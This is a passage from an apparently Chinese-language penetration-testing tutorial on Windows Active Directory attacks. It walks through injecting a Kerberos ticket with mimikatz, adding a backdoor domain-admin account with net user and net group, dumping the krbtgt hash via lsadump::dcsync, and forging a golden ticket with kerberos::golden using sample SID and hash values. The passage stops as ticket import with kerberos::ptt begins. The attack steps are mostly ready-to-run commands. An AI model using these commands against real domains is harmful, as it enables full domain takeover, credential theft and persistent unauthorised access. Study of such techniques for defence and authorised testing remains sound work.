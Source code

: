 **mimikatz # kerberos::ptc** 票据文件  //将票据注入到内存中

 ![image-20220116163435709](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161634363.png)

查看下当前用户权限，发现访问成功，现在我们有域管的权限:

 ![image-20220116163450213](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161634120.png)

添加域管用户：

```
net user aaa ad2016.com /add /domain
net group "Domain Admins" aaa /add /domain
```

#### 二、伪造金票

**伪造金票的所需条件**
 1、域名称
 2、域的SID值
 3、域的KRBTGT账号的HASH
 4、伪造任意用户名

登录aaa域管用户，执行`whoami`可以看到是aaa用户：

使用一下命令导出用户krbtgt的hash：

```bash
lsadump::dcsync /domain:abcc.org /user:krbtgt    #domian：后面是域控名  user后面是krbtgt用户
```

![image-20220116164325908](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161643371.png)

可以发现已经获取到了hash等各种信息

![image-20220116164257874](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161642971.png)

在域内其他Client(用户机器)上使用域管理员来抓取krbtgt用户的hash和sid(使用mimikatz.exe工具)，这里命令和上面的命令是一样的。也可以利用其它方法获取krbtgt的NTML hash

在域控上面成功抓取了hash和sid，将hash和sid复制到其他域内机器中，也就是Client端，然后在mimikatz.exe执行kerberos::list删除我们当前的票据。

亦或者利用mimikatz生成金票生成.kirbi文件并保存：

```cpp
mimikatz.exe "kerberos::golden /admin:system /domain:cyberpeace.com /sid:S-1-5-21-97341123-1865264218-933115267 /krbtgt:95972cdf7b8dde854e74c1871f6d80a0 /ticket:ticket.kirbi" exit

/admin：伪造的用户名
/domain：域名称
/sid：SID值，注意是去掉最后一个-后面的值
/krbtgt：krbtgt的HASH值
/ticket：生成的票据名称    //不是写入内存中的命令！
```

#### 三，金票的使用(普通域账户，利用黄金票据，创建域管账户)

登录域内普通用户，通过mimikatz中的kerberos::ptt功能将票据导入内存中。
